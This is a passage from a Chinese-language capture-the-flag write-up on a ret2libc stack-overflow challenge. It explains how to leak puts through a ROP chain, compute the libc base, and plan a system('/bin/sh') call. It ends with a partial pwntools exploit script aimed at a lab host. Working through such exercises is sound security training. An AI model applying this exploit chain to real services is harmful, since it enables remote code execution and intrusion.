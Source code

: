 4. **基地址：**
   libc 加载到内存后，会有一个起始地址，称为基地址。通过泄露某个函数（如 `read`）的实际地址，减去其在 libc 中的偏移量，可以计算出 libc 的基地址。

---

## **解题思路**

#### 1. 构造第一次 Payload
- **目标：**
  - 通过栈溢出，泄露 libc 中 `puts` 函数的实际地址。
  - 重定向到某个函数，使程序进入可控循环，便于后续操作。

- **步骤：**
  - 填充缓冲区，覆盖返回地址。
  - 将栈指针跳转到 `pop rdi` 的 ROP Gadget，设置函数参数（GOT 中函数的地址）。
  - 跳转到 `puts` 的 PLT 表，打印 GOT 表中 `puts` 函数的实际地址。
  - 跳转回 `vuln` 函数，使程序可以重新输入。

- **效果：**
  通过打印出 libc 中的 `puts` 函数的实际地址，泄露信息。

#### 2. 计算基地址并构造第二次 Payload
- **目标：**
  - 根据泄露出的实际地址，计算 libc 的基地址。
  - 使用基地址定位 libc 中的 `system` 函数和 `/bin/sh` 字符串。

- **步骤：**
  - 基地址 = 实际地址 - 偏移量（通过 `pwntools`读取ELF文件的`symbols` 获取偏移量）。
  - `/bin/sh` 地址 = 基地址 + `/bin/sh` 偏移量。
  - `system` 地址 = 基地址 + `system` 偏移量。

- **Payload 构造：**  
  - 首先填充缓冲区，覆盖返回地址。  
  - 需要额外加入 `p64(ret)` 指令，因为在 Ubuntu 18 及以上版本的系统中，调用 `system` 函数时会进行栈对齐检查。如果栈未对齐到 16 字节，程序将直接崩溃，因此需要手动对齐栈。而ret指令并不影响ROP链的运行，所以选择加入ret空转。  
  - 利用 `pop rdi` ROP Gadget，将 `/bin/sh` 的地址作为参数压入栈。  
  - 跳转到 `system` 函数地址，执行 `/bin/sh`。  

#### 3. 交互 Shell 获得目标程序的 flag

## 解题脚本
```python
from pwn import *

host = '10.12.153.73'
port = 10696
p = remote(host, port)

e = ELF("./37")
pop_rdi = 0x40117E
puts_got = e.got["puts"]
puts_plt = e.plt["puts"]
vuln_addr = e.symbols["vuln"]

payload = cyclic(72)
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(vuln_addr)
p.sendlineafter(b'Go Go Go!!!\n', payload)
puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

libc = ELF("./libc.so.6")
libc_base = puts_addr - libc.sym["puts"]
system_addr = libc_base + libc.sym["system"]
```